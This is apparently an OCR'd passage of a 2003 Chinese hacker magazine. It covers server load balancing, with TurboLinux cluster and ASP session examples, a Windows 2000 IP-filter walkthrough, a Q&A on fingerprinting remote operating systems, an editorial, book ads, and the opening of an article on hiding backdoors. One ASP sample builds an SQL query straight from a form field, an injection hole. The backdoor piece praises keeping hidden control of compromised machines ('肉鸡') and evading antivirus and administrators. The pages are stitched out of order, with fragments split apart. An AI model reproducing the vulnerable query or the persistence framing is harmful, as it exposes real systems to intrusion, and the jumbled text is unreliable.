- 设置各台服务器的 IP 地址、子网掩码、路由等，调通网络，将一台 TurboLinux 服务器设置成 DNS 服务器，使其能够正向解析和反向解析。服务器名比例为 pc1，域为 test.com。

- 配置 Cluster Server。执行 Turbolinux clusteradmin，设置信息如下（注：箭头连接的是选单选项，箭头所指为下级选单，冒号后为设置情况）：

  - ClusterServer Configuration → Cluster Services → Application Stability Agents:
    1. http 为默认的服务，不用设置
    2. ftp----/usr/lib/ftpAgent

  - ClusterServer Configuration → Cluster Services → Service Settings:
    1. http, 80: TCP, sticky
    2. ftp, 21: TCP, ftp

  - ClusterServer Configuration → Servers Configuration:
    1. pc1 (pc1.test.com), direct, ping
    2. pc2 (pc2.test.com), direct, ping
    3. pc3 (pc3.test.com), direct, ping
    4. pc4 (pc4.test.com), direct, ping

  - ClusterServer Configuration → Advance Traffic Managers:
    1. Advance Traffic Manager System: pc1.test.com
    2. Advance Traffic Manager Setting: 默认值

  - ClusterServer Configuration → Virtual Servers:
    1. 主机为：pc1.test.com
    2. sendmail：master@pc1.test.com
    3. Server pool name: ServerGroup1

  - ClusterServer Configuration → Global Settings:
    网络设置：netmask 255.255.255.0

### 配置群集各节点

因为 TurboLinux Cluster Server 本身能被工具自动同步，所以只需配置 Windows 2000 Server：开始→设置→控制面板→添加新硬件→下一步→添加／排除设备故障→添加新设备→否，从列表选择硬件→其他设备→Microsoft：Microsoft Loopback Adapter→完成。桌面上右键单击“网上邻居”→属性→TCP/IP→设置 IP 地址、缺省网关、子网掩码（注：先设成：255.255.255.0）。开始→运行→regedit→找到注册表中跟 Microsoft Loopback Adapter 相关的项，将子网掩码改成 255.255.255.255。

配置系统以便运行合适的服务并配置适合控制管理器管理的配置，以便可在控制管理器中使用。

在管理选单中执行内容同步：选 tlcs_content_sync，输入密码，将复制控制管理计算机中的服务内容。在管理选单中执行设置同步：选 tlcs_config_sync，输入密码，将复制控制管理计算机中的设置。现在已经可以进入运行状态，可将客户端连接在服务器的交换机上，客户端可以请求 Web 和 FTP 服务，需要查看运行情况可以从控制台从 https://com1.blcserver.com:910 管理。

### 实例2

有防火墙的计算机设备同样也需要负载平衡。通常，防火墙处于外部网和内部网之间，决定了哪些内部网络可以被哪些外部网络访问，哪些外部服务可以被内部人员访问，这样，防火墙必定肩负着沉重的负担，而负载平衡恰恰可以缓解外部网络多主干网络带宽的压力，即在防火墙上增加冗余功能。使用了负载平衡算法的冗余防火墙系统，能监测每个防火墙上的用户数目和流量，平等地动态分配单元进出的流量，保证所有安装的防火墙的性能处于最优化状态，这样整个系统处理数据流量的能力比单个防火墙就有了很大的提高。同时，不论处于备用状态还是负载均衡状态，每个防火墙还监视其他设备的工作状态；当一个防火墙单元失效时，系统会将所有请求重新分配到其他单元上，并达到新的负载平衡。图 2 所示为多个防火墙单元。

配置上面原理的防火墙体系，首先需要防火墙自身的支持，这种防火墙可以采用 SecureCom 8001 防火墙。其次，需要对路由器进行设置，对进出外网的数据包进行转发才行。负载平衡应用到网络 IDS 的原理也和防火墙差不多，大家可以试着去揣摩一下。

### 实例3

程序编写上我们也可以用到负载平衡，只是现在的负载平衡很明显是用软件来替代硬件的算法，在速度上可能不是那么快，但效果还是很好的，可以缓解外部对内部服务器的请求。大家都使用过的 QQ，其服务器就有很多台，而每次我们登录的服务器可能都不一样。尽管如此，也许我们登录的 IP 也只是一个群集 IP 地址（即这个 IP 地址会把我们重新定向到另一台我们所不知道的服务器上面，实现负载均衡）。很多大型的有实力的公司也会在全国各地建立自己的分站点，总不可能大家都去访问同一台服务器吧，这样服务器很容易崩溃的。

接下来，我们来讨论如何在 ASP 程序里实现负载平衡。当我们创建交互式 Web 页面时最大的挑战之一是维持用户的状态，一个站点也许想记住你是谁、在 n 页之前你点击了什么、在这最后一次做了些什么、现在马上要向你显示什么。实现这些功能的途径有许多，如查询字符串、提交表单或 Cookies，最强大的一种是 ASP 的 Session 对象。服务器可以在 Session 集合中跟踪一整群的变量，通过与用户的 Session Cookie 相匹配来保持每个用户有一个特定变量。只要用户在服务器上保持活跃，Session 变量就维持它的状态。然后在大量用户的使用中跟踪用户会给服务器带来很大的负载。然而对真正的负载平衡来说，每当处于服务器上的用户点击一个连接时，它就转到另一个服务器上面去，从而改变服务器的状态，而每当浏览一个新页面时都潜在地丢失他们的 Session 信息。如果你发现自己是在这样的环境下编写代码或者你怀疑你的站点最终是负载平衡的，有 4 种方法解决这个问题：

### 完全不使用 Sessions

显然，绕过 Sessions 管理这个问题的一个途径就是根本不使用 Sessions 变量。但是你仍然受困于状态保持的问题，则可以使用最简单的方法跟踪用户，而不用写客户端。一种不安全的方法是使用浏览器查询字符串，或用隐藏值进行表单输入，以使用户保持活跃状态。这将允许你给他们一个用户 ID，并将变量存储在一个所有的 Web 服务器都能到达的地方。比如说我们保持了变量 ShipToZipCode、TypeOfCustomer 和 CustomerEmail，可以这样写：

```
html
<form action="/nextpage.asp" method="post">
  Item Number: <input type="text" name="ItemNumber"><br>
  Quantity: <input type="text" name="Quantity"><br>
  Unit Cost: <input type="text" name="UnitCost"><br>
  <input type="hidden" value="LARXXKIR8JSDFJf2KJfL2H75GX45X2" name="sessionid">
  <input type="submit" value="post form">
</form>
```

然后，在 `nextpage.asp` 上，做以下工作：

```
vb
Set conn = Server.CreateObject(ADODB.Connection)
Set SessionRS = conn.execute("Select ShipToZipCode, TypeOfCustomer, CustomerEmail from TblSession where SessionID='" & request.form("sessionid") & "'")
ShipToZipCode = SessionRS("ShipToZipCode")
TypeOfCustomer = SessionRS("TypeOfCustomer")
CustomerEmail = SessionRS("CustomerEmail")
```

这样，通过将所有的 “session” 信息存储在数据库中，可以使这三个变量在每一页上都保持活跃。确保用户 ID 的值很难猜到，这很重要。当访问第一页时，将分配给用户的 SessionID 存储为用户名；当用户离开这一页时可以考虑清除这个数据，有效地重新生成 ASP Session 对象。这可以手工完成，或者用一个限时程序将数周以上的记录删除。

### 使用临时 Cookies

对于特别的非敏感数据，直接向客户机中写入信息是有意义的。比如说，如果我们的网站只使用了一个变量来跟踪用户的 ZIP 码来得到用户在当地的交通记录，那么以 HTTP Cookie 的形式将用户的 ZIP 码写入他们的机器应该不会产生什么危害。因为你可以将 Cookie 写成浏览器关闭时失效，就可以使它们模仿一个 Session 变量的功能，也可以使它们是持久的，好在用户下一次访问时记住它。用 Request 对象 Cookie 的值可以为服务器所用，请求 Cookie 的值，然后将值带进来。

所以在我们上面的例子中，可以这样做：

```
vb
ShipToZipCode = Request.Cookies("SessionCookie")("ShipToZipCode")
TypeOfCustomer = Request.Cookies("SessionCookie")("TypeOfCustomer")
CustomerEmail = Request.Cookies("SessionCookie")("CustomerEmail")
```

你不得不把这些放置在每个页面的顶部，但是如果用户把 3 个 cookies 都设置了，那么每一页都可以存取和使用这些用户特定的变量。你还可以在一个 Cookie 中设置 3 个变量，请看 Ken Baumbach 的文章 *Cookie Basics with ASP*，里面有设置变量的更多信息。如果你认为用户可能在浏览器上使 Cookie 无效，这种方法就不适用。但是越来越多的站点要求使用 Cookies，Web 用户也越来越熟练了。有可能相对较少的用户会使 Cookies 无效，但是这要在执行这一方法之前进行考虑。虽然上面的方法肯定能奏效，但是它们削弱了 ASP 的功能，因为它限制了其中一个关键组件——Session 对象的使用。

### 购买一个第三方组件

第三方组件可以比 IIS 更好地处理 Session。在这里我们向大家介绍一个组件：由 SoftArtisans 提供的——SA-Session Pro。它使用 2000 文件系统存储用户的信息，整个网络范围内的服务器都可以使用。其他第三方组件创建 “Session 引擎” 把网络服务器和 Session 管理器分离。这样，每次用户都可以被重定向到相同的 Session 引擎，同时也对服务器本身的点击进行负载平衡。另一个可选择的第三方组件是 Microsoft 的成员服务器。它是 Microsoft 的站点服务器，它允许一个站点处理状态维护以外的问题。

由于 ASP 越来越成为企业级网络应用程序的选择，而负载平衡也成为这些应用程序成功的最大威胁，在市场上会出现越来越多的第三方组件。ASP 本身就是服务器对象或 ActiveX 组件，可以处理这些插件。

现在 SQL2000 可以和 Windows 2000 合作处理用户的 Cookies，这样一来，ASP 的 cookies 变量和 Session 可以都存储在 SQL 2000 的数据库中。我们再也不需要购买其他不是很可靠的第三方组件了。

## 四、充分利用 Windows 2000 Adv Server

Windows 2000 Advanced Server 操作系统在包含 Windows 2000 服务器标准版全部特性和功能的基础上，为需要高度可伸缩性、可靠性及可用性的组织机构提供了额外特性。Windows 2000 Advanced Server 是一种通用高可用解决方案，适用于当今的 PC 客户机／服务器局域网。它通过共享的 SCSI 磁盘阵列将两套 Windows 2000 系统耦合在一起，创建成一种单一系统环境，或称为群集。终端客户可以存取所有的群集资源。例如，磁盘共享、文件共享以及数据库应用程序，而且不必了解群集内部各服务器名字。如果一台服务器失效，群集的第二台服务器将立即接替其工作负荷，重新连接客户机，还使共享存储器和文件共享等。

Windows 2000 Advanced Server 群集适用于工业标准部件，以非常低的成本提供系统级高可用性。对客户机来说，群集的寻址跟单一服务器寻址没有差别。群集通过冗余 CPU、存储器以及数据路径提供高水平的可用性。Windows 2000 的网络负载平衡群集最多可将 32 台运行 Windows 2000 Advanced Server 软件的服务器合并到单个群集中，以此对基于 TCP/IP 的服务和应用程序提供可伸缩性和高可靠性。客户端可使用一个 IP 地址访问群集，并用其他 IP 地址访问多宿主服务器。网络负载平衡群集通过在群集中的服务器之间分配客户机连接以提供高性能。如果服务器故障或因升级、测试和维护而脱机，群集将自动重新配置，而且客户机连接也将重新分配。Windows 2000 Advanced Server 网络负载平衡属性如图 3 所示。

如果要在非群集环境下访问某个网络应用程序或资源，网络客户端必须与物理服务器（是指网络中由唯一的网络名称和 IP 地址所标识的特定计算机）连接。如果该服务器发生故障，则无法访问应用程序或资源。Windows 2000 Advanced Server 允许通过服务器群集创建虚拟服务器。与物理服务器不同，虚拟服务器不与特定的计算机相关联，但可以像组那样进行故障转移。如果虚拟服务器所在的节点产生故障，则客户端仍可以使用相同的服务器名访问它的资源，如图 4 所示。

对硬件 RAID 的支持，Microsoft Windows 硬件兼容性列表也包含了用于群集的许多不同硬件 RAID 配置，结构如图 5 所示。

群集技术和负载平衡是不可分割的。我们用了很大的篇幅给大家介绍了群集技术间接上是实现负载平衡的关键。我们还需要通过自己的实践才能体会到负载平衡技术的强大功能。

## Windows 2000 中

文／彬彬

## 网络安全策略的详细设置方法

为了更高效、安全地在网络上保护好自己的计算机，建议大家安装防火墙软件。但防火墙软件不多不少总占用一些系统资源，尤其在受到大量“非法”连接甚至只是大量的 Ping 时，防火墙会为了拦截和记录这些而占用大量系统资源。其实，利用 Windows 2000 本身带的功能即可完成大部分防火墙能做到的工作，比如拦截来自其他机器的 Ping，或是阻止网络上的其他计算机对自己某些端口的连接。下面介绍一下 IP 安全策略的详细设置方法，为了能让大部分朋友能更容易地看懂，所以讲解比较详细，当然文章篇幅也比较长，希望有兴趣的朋友们耐心看完。

首先，为了让朋友们更容易了解当中的内容，现在先不介绍设置方法而先讲讲一些基本内容。在 Windows 2000 里，这部分内容有 3 个基本名词。第一个是“IP 安全策略”，它可以说是一个容器，本身并不执行什么操作；第二个是“IP 筛选器”，它是真正起作用的规则，但本身并不指定进行什么操作，而只是判断是否符合规则；第三个是“筛选器操作”，这个才是决定符合某个“IP 筛选器”中指定的规则时进行什么操作。

单看上面的文字也许不容易懂，举一个例子说明吧：“IP 安全策略”就是一个文件袋，这个文件袋只是为了装载具体内容而设的容器，同时为每个文件袋起一个名字与一段简述，方便有关人员大概地了解当中的主要内容，它本身并不存在什么规则。

同一时间只能有一个“IP 安全策略”是生效的，其他的“IP 安全策略”只是在一边放着；但你可以随便更换（指派）当前生效的“IP 安全策略”。而“IP 安全策略”这个文件袋里装的就是“IP 筛选器”了，“IP 筛选器”就是具体的条文，里面指定了一些规则，让系统把当前通信内容跟规则里的条文作对比，查证是否符合规则中指定的条件。但“IP 筛选器”本身并不指定对符合条件的通信进行什么操作，而只是验证是否符合规则，符合时的具体操作方法是指向一个“筛选器操作”里指定的操作方法的。系统已默认提供一些“筛选器操作”，用户也可以自己添加，“筛选器操作”意思就是明确指定进行什么操作的了，比如通过或拦截。一个“筛选器操作”里的条文配合一个“筛选器操作”里的动作，就能真正起到对指定通信进行指定操作的功能。我们也正是利用这个功能来限制跟外部的通信以达到跟防火墙一样的安全目的。下面开始介绍设置方法：

首先，打开“管理工具”中的“本地安全设置”，界面如图1所示。

用鼠标右键单击图1所示的左边的“IP安全策略，在本地机器”，选“创建IP安全策略”来创建自己的“IP安全策略”。选后出现如图2所示的对话框，此时进入创建IP安全策略的向导。

此时按“下一步”，将出现如图3所示的对话框。

在图3所示的“名称”和“描述”处输入这个IP安全策略的名字和简单描述，然后再按“下一步”，就会来到如图4所示的窗口。

来到图4所示的窗口时，再按“下一步”，到如图5所示的窗口。

在图5所示的窗口中再按“下一步”，将出现如图6所示的警告对话框，不必管它，按“是”。

在图6所示的窗口中按“是”后，将去到向导的最好一个窗口；如图7所示。

在图7所示的窗口中先不要选中“编辑属性”，然后按“完成”按钮，此时，图1所示的“本地安全设置”窗口的右边将出现你刚刚添加的IP安全策略。

然后，我们再添加自定义的“IP筛选器”，以便捕捉要拦截的网络通信。如前面的图1所示，在快捷菜单中选“管理IP筛选器表和筛选器操作”，就会出现如图8所示的窗口。

在图8所示的窗口中按下方的“添加”按钮，用“添加向导”来一步步添加规则的话，那可以选中，但我比较喜欢在一个对话框内完成所有操作，不想用向导一步步慢慢来。把“使用‘添加向导’”设为非选中状态后，按右边的“添加”按钮开始添加具体的规则，完成后出现如图10所示的窗口（如果你是用“添加向导”的话，那窗口会有所不同），此例子是要禁止所有人 Ping 自己，还有就是禁止其他机器连接本机的 135 端口。学会这些后，你应该能按自己的需要设置更复杂的规则了。

出现如图9所示的对话框，现在开始添加自己的筛选器。

在图9所示的窗口中，你可以为新的 IP 筛选器改一个名字，同时也可以加一点描述。在这里要说明的是，IP 筛选器里的是具体的规则，你可以在一个 IP 筛选器里添加多条规则以完成所有需要的操作，也可以把每个操作分别放到一个 IP 筛选器里，以便需要时停用某个规则，因为 IP 筛选器是整个生效或整个停用的，比如我们同时把拦截 Ping 和拦截 135 端口的规则同时放到同一个 IP 筛选器时，那一天我们想暂时允许别人 Ping 自己时，就必须停用相应的规则，但同时对 135 端口的连接拦截也停了。所以，要按自己的需要把一些规则单独放到一个 IP 筛选器里，以方便以后的单独停用或启用。现在回到正题，在图9所示的窗口中不要选中“使用‘添加向导’”，如果你喜欢

如图10所示，此时我们要添加禁止其他人 Ping 自己的规则，把源地址设成“任何 IP 地址”，目标地址设成“我的 IP 地址”，不要选中下面的“镜像。同时匹配具有正好相反的源和目标地址的数据包”，然后按图10所示的最上面的“协议”选项卡，进行其他设置。协议选项卡的内容如图11所示。

在图11所示的窗口中选中ICMP，然后可以再用上面的“描述”选项卡给这个规则添加一些描述信息，最后按窗口下方的“确定”完成添加过程。添加好后如图12所示，则添加的规则已出现在列表中。

现在再重复一次上面的添加过程，添加拦截所有对135端口的连接。同样是按“添加”按钮，第一步的设置方法跟上面的图10一样，但在第二步“协议”选项卡中要如图13的设置。

最后，还是按“确定”按钮完成添加，此时拦截任何人Ping自己和拦截任何人连接自己的135端口的筛选器已经添加好了。当需要进行更详细的设置，比如指定只是不允许某个IP或IP段之类的机器访问自己的某些端口时，可以根据需要在图10所示的窗口中详细设置，在图13可以选使用的协议，还可以为某些协议指定端口。

新筛选器添加完后，就会在前面图9所示的窗口中显示出来，此时轮到添加“筛选器操作”了，在如前图9所示的窗口选上方的“管理筛选器操作”，将出现如图14所示的窗口。

图14中显示的是系统默认已有的筛选器操作，为了讲述添加自定义筛选器的过程，所以我们不打算采用系统默认提供的筛选器而自己添加一个。同样地，为方便起见，不选中右边的“使用添加向导”，然后按“添加”按钮，将出现如图15所示的窗口。

因为我们之前添加的筛选器都是要拦截的，所以这个筛选器操作是要达到阻止功能，如图15所示，选中“阻止”，然后选上面的“常规”选项卡，出现如图16所示的窗口。

在图16中，在名称和描述里输入适当的名称和信息以方便判断这个筛选器操作会执行的动作。最好按“确定”，此时就完成了一个起到拦截作用的筛选器操作。

作的添加。如图17所示，刚添加的筛选器操作“拦截”已出现在列表中。好了，要添加的都添加完了，现在要把具体的筛选器与具体的筛选器操作配合起来然后添加到一个“IP安全策略”里并指派让它生效。右击如图18所示的我们开始时添加的IP安全策略，选“属性”，打开它的属性窗口进行进一步操作。

下面的图19就是我们第一步时添加的IP安全策略的属性窗口。同样地，在如图19所示的窗口中不选中“使用‘添加向导’”，然后按下面的“添加”按钮，把我们自己添加的筛选器添加进来，添加窗口如图20所示。

所图20所示，选中我们之前添加的筛选器列表。在这个对话框中，你可以临时添加、编辑或删除所选的筛选器。选好筛选器后，按上面的“添加”按钮，把我们自己添加的筛选器添加进来，添加窗口如图20所示。

“筛选器操作”选项卡，窗口变成如图21所示。如图21所示，选中我们自己添加的名为“拦截”的筛选器操作，然后可以按“确定”完成设置，你也可以到“连接类型”选项卡中指定此筛选器生效的连接类型。按“确定”后，如图22所示，窗口中已存在我们刚刚添加的筛选器了。

在图22所示的窗口中，你可以通过具体筛选器前的复选框决定相应的筛选器是否生效。至此，所有的添加与设置已完成了，本次设置的主要目的是拦截其他任意机子对本机的Ping操作以及对135端口的连接。但千万别忘了最后一步的指派，不然的话辛苦设置好后却因为没有生效而“浪费”了。

指派的操作非常简单，如图23所示，选指派就可以了。指派了的“IP安全策略”图标的右下角会变成绿色，以示区分。指派好后，这个IP安全策略就马上生效了，你可以试着从其他机子上Ping或是连接本机的135端口，都不会成功的。但由于前面是用关闭所有ICMP通信的方法来拦截Ping，所以人家不能Ping你之余，自己也不能Ping别人，但这并不影响其他网络使用。

> 在网络安全界，“病毒”一词已经是司空见惯，可以说任何接触电脑的用户，对“病毒”的可怕都有过体会；幸运的是安全厂商们总能够很快的发现，并提供查杀工具、提供预防方法，并且只要提高意识，做好防范，我们就可以远离病毒。同样，对于SARS病毒，我们一定要做好防范措施，相信我们同样会胜利。

### 问：请教网络安全解决方案涵盖的内容有那些，是不是有了防火墙就可以了？

Bright：网络平台安全不仅仅是防火墙的问题，网络安全是在对客户运用需求明确了解的基础上，结合软件应用模式，所给出的包含网络访问控制、链路加密、信息加密、IDS、主动漏洞扫描、网络安全审计、网络防病毒等一系列产品、解决方案的集合。解决方案的深度及设计层面视客户需求和投资规模而有所不同。

### 问：经常听人说VPN什么的，那么请教虚拟专网（VPN）到底是什么？

Bright：VPN（Virtual Private Network，虚拟专用网络）即是指在公众网络上所建立的企业网络，此企业网络拥有与专用网络相同的安全、管理及功能等特点，并在更为符合成本效益的基础上来达到对多重协议的支持、高可靠性及高扩充度。通过VPN能快速实现与移动工作人员、分公司、合作伙伴、客户间的连接，提高效率，很适合用于企业管理。

### 问：如何确定本地或远程机器安装了那些补丁及补丁情况？

Bright：微软推出的命令行安全工具hfnetchk可以检查本机或远程主机有什么补丁没有安装，它会给出相应的安全公告号，你可以到微软安装相应的补丁，这应该是网管的必备工具。下载：http://haowawa.8866.org/down/hfnetchk.zip，利用它可以用这个来测试自己的服务器的补丁情况，但是它也可能被黑客利用。

# 问：我是一家经营药液的公司，为了宣传公司产品，想制作一个网站，请问我们需要什么条件？是不是一定要有服务器？

Bright：对于想作企业宣传的而建设网站的公司，其实只需要在ISP处（比如：www.net.cn）申请一个域名和虚拟主机，把制作好网页上传到虚拟主机就可以了，不一定要去申请自己的独立服务器。所谓虚拟主机，是使用特殊的软件技术，把一台运行在因特网上的服务器主机分成一台台“虚拟”的主机，每一台虚拟主机都具有独立的域名，具有完整的Internet服务器（WWW、FTP、Email等）功能，虚拟主机之间完全独立，并可由用户自行管理，在外界看来，每一台虚拟主机和一台独立的主机完全一样。

### 问：我想了解什么能标识远程主机的OS信息？识别远程主机OS的方法都有什么？

Bright：端口及其运行的服务、主机上运行的程序种类及版本信息，TCP/IP协议栈实现的差异等等，凡是能标明某个类型“版本”OS与其他所有不同类型“版本”OS不同的差别均可作为标识远程主机OS信息的手段。

根据ICMP协议的应用得到TTL值：直接对目标主机进行Ping指令将返回TTL值，也可以配合Tracert确定原始的TTL值，这种方法相当简单，但是不精确且不可靠，因为主机管理员可以手动修改TTL值。Windows系统中只需要修改注册表的对应键值，将DefaultTTL这个key修改即可。

获取应用程序旗标：比如直接对主机进行Telnet或者FTP连接，缺省情况下你将得到远程主机返回的Banner信息，它将如实地交代自己的信息，Telnet可以直接得到一些OS的信息，FTP将得到FTP Server的信息，便于辅助确认远程OS。当然，这些Banner信息也可以很方便地被修改，因此不要过分相信它。

利用TCP/IP协议栈指纹鉴别：这个方法的准确性和可靠性都很高！因为一般的管理员可不会去有意识地修改OS底层工作着的网络堆栈参数。Queso、nMAP、CheckOS等工具就是利用这个原理来识别远程OS。

Web查点+综合分析：若目标主机是一台Web主机，那么可以直接通过WWW访问它，当今很少见HTML静态页面了，许多站点都是通过一些Web脚本（ASP、PHP、CGI等）搭建，通过在Web页面上搜集的信息也可以粗略判断OS，比如ASP的脚本，那主机当然是Windows系列了，通常这个方法粗略且不准确。

# 都是“非典”惹得祸

一个突然其来的病毒，几乎在一夜之间改变了我们的生活。“非典”成了媒体和大众的关注重点，这个名叫SARS的病毒，不同于我们日常所说的蠕虫病毒，蠕虫病毒破坏的是电脑，是对互联网的挑战，是互联网的灾难，但却有着大量杀毒软件去查杀。可怕的SARS病毒，对象却是人类，目前却没有非常有效地防治方法，是对人类的挑战，是人类社会的灾难。

对于我们每一个读者来讲，或多或少都感受到了它所带来的冲击震憾，许多人无法再到网吧体验他们对网络的痴迷，只能回到家里打56K的猫，我们更无法再去放松心情来享受这阳光明媚的春天。不过，就如同一个我们读者面对一次存在漏洞的人侵挑战一样，坚持不懈，冷静面对各种关卡，只要不放弃，最终我们必然胜利……

对于编辑部来讲，由于“防非”一度在家办公，一下子从“宽带”变成了可怜的“小猫”，还真有点不适应，不过却有更多的时间可以静下心来想一想。随着网络技术的不断提升，我们面临的挑战越大，我们深深的体会到攻击于防范向来都是矛与盾的关系，互相促进。可以说，没有攻击促进的防范只能说是无能的防范，反过来，没有防范制约的攻击只能是无知的攻击。那么在这种情况下如何才能提升我们的攻防技术？经过一段时间的调查、沟通，黑防的栏目和内容做了明显的调整，很多读者应该已经看到了吧？我们把杂志一分为二，80页的内容专门讨论各种网络攻击，有的从技术角度作深度分析，有的是各种工具、技术的组合应用，有的是作者的经验总结，在阅读这本时可以暂时撇开防御，一心研究攻击技术，分享作者公开的攻击代码、方法，可以看看自己还有没有更好、更快捷的方法。回过来看看64页的文章，针对80页的攻击技术作出相应的安全加固，系统修补，有专门针对前述的一种攻击技术，有通用的安全解决方案，此时，可以看看这些防御措施是否合理？是否可行？有没有更好的方法？我们有充足的资源来做好这些内容，同时为了进一步帮助读者提升技术，下面还有更精彩的栏目带给大家。

目前，编辑部正在筹建一个公开面向读者的攻防实验室，首期节目就是针对黑防公布的最新漏洞，我们提供主机，供对此有关兴趣的读者来进行攻防试验研究，并且论坛将专门开设攻防试验栏目，因此我们希望各位尽快在论坛注册，进行讨论，对于有好提议、好方案的读者，我们将聘为“黑防攻防研究员”，参加我们的攻防试验，对于每次活动的时间，我们会对在攻防试验栏目发帖的会员，通过各位Email分批次通知，希望各位尽快把自己的注册Email地址改成有效地地址，确保可以收到我们的通知。而对于每期活动的结果，我们同样会公布在论坛供大家讨论，具体的活动细节请参阅论坛内容。

最后，我们向所有参与抗非、工作在抗非一线的人们致以崇高敬意！

# 特别专题

- 后门程序的隐蔽 ................................ 4

大凡喜欢 Hacker 技术的朋友在成功进入目标机器后，通常都会留下一个后门，以便下一次方便进入该机。相信每一个给“肉鸡”留后门的朋友都不愿意自己辛辛苦苦弄到手的“肉机”，由于对方装有杀毒工具而自己安的后门刚好被列入“病毒”的行列而失去它吧……

# 经验交流

- 忘记 Foxmail 密码的十大对策 ........................ 10
- 天网防火墙的两则妙用 .............................. 14
- 不让 Outlook Express 的通讯簿自动转发带毒邮件 .............................. 15
- 突破激光 IV 的限制 ................................ 16
- Window 按钮突破专家——突破不可用选项的限制 ........................ 18
- 手工查杀木马“传奇密码终结者” ...................... 20
- 网吧管理软件重大漏洞知多少 ........................ 22
- 由浅入深解析克隆账户 .............................. 24
- 警惕“关联陷阱” .................................. 29
- ASP 的两个实用小技巧 ............................. 31
- COPY 大法应用 .................................... 32

# 漏洞攻击

- “黑客”与系统管理员的较量 ........................ 34

黑客与系统管理员之间的关系一直以来都属于成语“自相矛盾”的另类演绎。很多出色的黑客同时也是一个系统管理员，而一个系统管理员，也很可能会成为一个出色的黑客。这篇文章就是作者对于黑客与管理员之间的互动的一次阐述……

- 自做 Honeypot 实现 Webdav 漏洞安全入侵及配置 ...... 41

# 脚本攻击

- YUZI BBS3000 论坛安全性分析 ...................... 43

目前网络上的论坛版本很多，比如著名的雷傲论坛、动网论坛等，一些网站爱好者们对于论坛的安全性也非常的感兴趣。

定价：23.8元

在本书中，可以看到各种有关网络安全方面的工具代码和代码注释（主要代码一并收录在本书的配套光盘中）。网络上流传的黑客工具很多，但你有没有想过尝试开发自己的黑客工具呢？也许有些朋友会觉得这对于自己来说太过于高深了，但只要看了本书后，你就会明白黑客工具是怎样写出来的。书中介绍了运用多种开发语言，如 Visual Basic、Visual C++ 等工具来开发，书中的代码部分完全是流行的工具代码，并且都有中文注释，很容易就可以看明白。书中列举了几位国内著名 Hacker 的代码，并且加上说明提要。在本书的配套光盘中，不仅概括了书中的代码，还收录了其他一些黑客工具代码和相关工具代码以及一些黑客工具等等。

定价：19.8元

《黑客防线》2003年增刊以8个栏目涵盖了黑客技术起步、进阶提高在内的66篇全新文章，分类很详细，每篇文章都经过精心挑选打造，是编辑部在长期读者调查的基础上，结合读者的喜好，特约作者撰写汇编而成，每个栏目的文章有一定的梯度，最适合想进一步提高黑客技术的读者阅读。

# 目录 CONTENTS

**定价：19.8元**

《黑客攻防 One To One》一书收集了广大上网用户经常遇到的网络安全问题，针对这些问题，编者按照“问题”——“分析”——“防范”的思路，条理清晰地告诉你在网络上如何应对黑客可能进行的侵害与反攻击，并对自己的计算机系统进行最有效的防护，以及如何进行反入侵与攻击。内容涵盖了从开始接触网络到熟练应对各种网络攻击的大量技巧，可以说是一本了解黑客入侵手段、从而掌握各种防护对策的最佳入门读物。通过介绍黑客可能采取的攻击手段、黑客攻击的思路、各种入侵工具的结合使用，详细分析了黑客攻击的方法和防范对策，从而对黑客攻击有一个充分的认识。

学习本书不需要专业的网络知识，适用于广大希望增强网络安全意识的网络爱好者阅读。

本书光盘收集了书中解决问题用到的所有工具，另外，还收集了优化系统、提高防范措施所用到的大量共享软件，配合书中解决问题的思路，灵活运用，完全可以做到保证一个系统的安全运行。

- 汇款地址：北京市中关村邮局008信箱
- 邮政编码：100080
- 收款人：《黑客防线》邮购部
- 热线电话：(010)62141446、62141445-8011
- E-mail：yougoubu@hacker.com.cn

趣，在经过测试验证以后，经常会发现这些论坛也存在着这样或那样的问题，本文是作者针对YUZI论坛的一次安全性分析，让读者们对这个论坛的安全情况有个了解。

- LB5K论坛多个管理文件存在管理员验证可绕开漏洞 ... 45
- 4个有问题的LB文件 ... 48
- BBSXP多个文件存在SQL Injection漏洞 ... 51

是软件就一定存在漏洞，BBSXP作为一款比较优秀的论坛软件也不例外。本文从分析BBSXP的几个文件着手，指出其中存在的不可忽视的漏洞。由于存在问题的文件比较多，本文只能就典型的几个文件作一下介绍，并在后面给出了漏洞利用程序代码。为了论坛的安全着想，我们后面也谈到了临时解决办法，希望使用该款论坛软件的朋友做好升级等安全防范措施。

## 黑兵器库

- 通过内网看校园网的安全性 ... 55
- 户外女生变男生——木马“户外男生”使用和分析 ... 59

## 编程解析

- 代码直击IPC扫描种植器 ... 62
- 写个简单的Telnet后门软件 ... 64

## e生e事

- 我在网络的日子——性黑客生活 ... 68

## 密界寻踪

- 软件加密解密完全接触 ... 70
- 都是你自己惹的祸——破解Virtual Desk ... 75

就像锁门一样，要想加密一封电子邮件，你必须使用钥匙，它是将你的讯息内容变成密文的工具。要解决这样的问题，目前最好的解决方法是使用公开密钥加密系统，即我们经常听说的PKI系统，比较知名的招商银行网上支付系统就使用了这种技术。

# 编读互动

# 后门程序的隐藏

文/netff

大凡喜欢 Hacker 技术的朋友在成功进入目标机器后，通常都会留下一两个后门，以便下一次方便进入该机。后门可以分为系统账号和后门程序。账号方面目前首数“克隆管理员”最为流行。而后门程序，哪个比较好用、流行，到黑软下载站点查一下“后门程序”类，下载点击率如何，一看便知。不过业界好像遵循“枪打出头鸟”这个规律，流行起来的后门程序很快会被杀毒软件列入追杀行列，冠以“病毒”之名。所以，现在很多高手用的后门程序都是自己写的。现在网络上有些人写一些所谓的“个人版”来出售，这些自己写后不公开或所谓的“个人版”由于种种原因，很少被杀毒软件所查到。:-)

相信每一个给“肉鸡”留后门的朋友都不愿意自己辛辛苦苦弄到手的“肉机”，由于对方装有杀毒工具而自己安的后门刚好被列入“病毒”的行列而失去它吧？退一步来说，即使我们给对方装的“后门”没有被杀毒工具列入追杀行列或对方机器根本没有装什么防毒工具，当我们堂而皇之地将后门程序在对方的机器上安装完成后，这些程序通常都会在启动选项（包括程序菜单下的启动及注册表中所含的启动选项，下同）或服务列表处留下它的“足迹”，以便下次机器重启时运行。一个还不算太笨的管理员至少应该有查看系统启动选项及进程的习惯吧。至于服务列表，一个好的管理员也应该有经常查看的习惯。如果是这样，那么，我们给对方装的后门便很容易暴露在对方的眼皮底下。

如此说来，一个好的后门程序至少必须具备以下条件：

## 一、安全性

